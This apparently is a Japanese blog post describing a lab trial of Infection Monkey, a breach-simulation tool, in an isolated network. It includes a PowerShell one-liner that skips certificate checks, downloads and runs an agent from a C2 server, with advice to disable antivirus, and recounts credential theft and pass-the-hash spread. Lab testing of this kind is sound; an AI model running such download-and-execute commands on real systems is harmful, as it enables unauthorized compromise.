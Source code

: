 ```yaml
---
title: "クラウド環境で使えるペネトレーションテストツール"
date: 2019-05-19T10:32:44+09:00
# trueにすると公開されない
draft: false
categories:
- security
- pentest
- cloud
tags:
- security
- pentest
- docker
# Googleはmeta keywordsを見ていないので意味がない
#keywords:
#- test
autoThumbnailImage: false
thumbnailImagePosition: "left"
thumbnailImage: /img/pentest.jpg
metaAlignment: center
---
```


プライベートまたはパブリックなクラウド環境の侵害をシュミレーション・評価するためのツールである
Infection Monkeyを動かしてみました。
<!--more-->

## あらかじめ準備しておく環境
* 被害者用のWindows7以上の VM
    * VMWareESxi6.5の上に構築
    * Windows Defenderとファイアーウォールを無効化
* 感染が拡大しても問題がないネットワーク
    * ルータでセグメントを分離
    * ルータ自体のパスワードを強固に設定
* DockerがインストールされたLinuxマシン
    * Ubuntu 18.04に構築
    * docker version 18.09.6
    * docker-compose version 1.17.1

## infection monkeyのセットアップ
```bash
$ git clone https://github.com/guardicore/monkey
$ monkey/docker
$ docker-compose build
$ docker-compose up -d
```

Dockerを動かしているマシンのブラウザからこちらのURLにアクセスすると下記のような画面が出力されます。
[https://localhost:5000/](https://localhost:5000/)

![](https://i.imgur.com/HH720sZ.png)

## 動作検証

検証を始める前に、VMのスナップショットを取得します。
スナップショットを取得することで、VMが感染してもすぐに元の状態に戻すことができます。

Infection Moncky管理画面の左側にある`2. Run Monkey`をクリックしたあと`Run on machine of your choice`をクリックすると
powershellコマンドのワンライナーが表示されます

![](https://i.imgur.com/dZ3Yb16.png)

malware.batという名前で上記で表示された文字列を貼り付けます。
私の環境では接続先が`172.22.0.3`となっていましたが、dockerを実行しているマシンのIPアドレスが`192.168.11.251`であったので、バッチファイルを少し変更しました。

```
powershell [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; (New-Object System.Net.WebClient).DownloadFile('https://192.168.11.251:5000/api/monkey/download/monkey-windows-32.exe','.\monkey.exe'); ;Start-Process -FilePath '.\monkey.exe' -ArgumentList 'm0nk3y -s 192.168.11.251:5000';
```

バッチファイルは`管理者権限`で実行します。
![](https://i.imgur.com/gRU7RoS.png)

実行するとコマンドプロンプトが起動し、メッセージがたくさん表示されます。
この時点でウイルスを検知される場合はアンチウイルスを無効化し再度実行します。

`
環境によってはアンチウイルスをアンインストールする必要があります。
`

![](https://i.imgur.com/QQMKovj.png)

Infection Monkeyの管理画面のInfectionMapを見ると、感染したWindowsマシンが描画されます。
MonkeyIslandはC2サーバです。MonkeyIslandから灰色の線で結ばれているマシンはC2サーバから遠隔操作されています。

![](https://i.imgur.com/EpqFdmX.png)

しばらく待っているとWindowsサーバにも感染を広げてきました。
Mimikatzを使って認証情報を奪われ、Pass the Hash攻撃をされたようです。 
![](https://i.imgur.com/Q8pxKFX.png)

さらに放置するとスキャンを繰り返し侵入を拡大しようとしていきます。
![](https://i.imgur.com/HpNOMZ1.png)

その後30分ぐらい放置すると、WindowsだけでなくLinuxにまで侵入されました。
侵入されたマシンにはsshがインストールされており、ユーザ名が`user` パスワードが`password`となっていました。
![](https://i.imgur.com/HNLX2fD.png)

侵入されたホストのプロセスを確認するとmonkeyというプロセスが動いていることが確認できます。

#### Windowsの場合
![](https://i.imgur.com/RtMEubB.png)

#### Linuxの場合
![](https://i.imgur.com/qtRHQbN.png)

## レポート出力
4 Security Reportをクリックすると
シュミレーションの結果を評価したレポートが出力されます
![](https://i.imgur.com/cXDNudh.png)

ネットワーク図の表示は見辛いですね。。。
![](https://i.imgur.com/ntpTJb2.png)


## 最後に
MetasploitやNessusのような脆弱性スキャナーに比べると、ラテラルムーブメントのような
内部偵察、資格奪取、感染拡大まで自動化できるのが本ツールの特徴でした。
Exploitモジュールは他の脆弱性スキャナに比べると[明らかに少ない](https://github.com/guardicore/monkey/tree/develop/monkey/infection_monkey/exploit)ですが、Pythonで書かれているため個人的には拡張性が高いと思っています。

余談ですが、[前回の記事](/2019/05/wazuh/)で構築したWazuhのログを見ても、Infection Monckyで攻撃されている間のログはほとんど取れていませんでした。
EDRのような使い方はまだ期待できないようですね。
![](https://i.imgur.com/yraL2wG.png)

